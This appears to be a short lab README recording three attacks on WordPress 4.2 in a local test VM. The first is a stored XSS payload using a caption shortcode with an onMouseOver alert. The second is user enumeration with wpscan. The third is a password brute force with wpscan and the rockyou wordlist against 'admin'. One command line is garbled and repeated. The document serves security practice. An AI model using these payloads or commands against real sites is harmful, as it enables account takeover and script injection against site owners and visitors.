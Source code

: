 # GitHub-V-Kali
Attack 1

XSS

version 4.2

Summary - Wordpress allows you to execute JS on your browser when creating or editing pages or posts

how to recreate - Start a new page, put in any title you want ant then insurt this code into the main text box : TEST!!![caption width="1" caption='<a href="' ">]</a><a href="http://onMouseOver='alert(1)'">XSS 💀</a>

Attack 2

User Enumeration

Version 4.2

Summary - based on what messages we recieve from the website when we enter credentials we are able to tell if the user is real or not.
recreate In Kali terminal run: wpscan --url http://wpdistillery.vm --enumerate uinal run: wpscan --url http://wpdistillery.vm --enumerate u

Attack 3

Brute Force

Version 4.2

Summary - Create a list of of simple and common passowrds and with the usernames we got earlier we cann ow bruteforce those accounts witht the list.

Recreate -in Kali terminal run wpscan --url http://wpdistillery.vm --wordlist /usr/share/wordlists/rockyou.txt --username admin
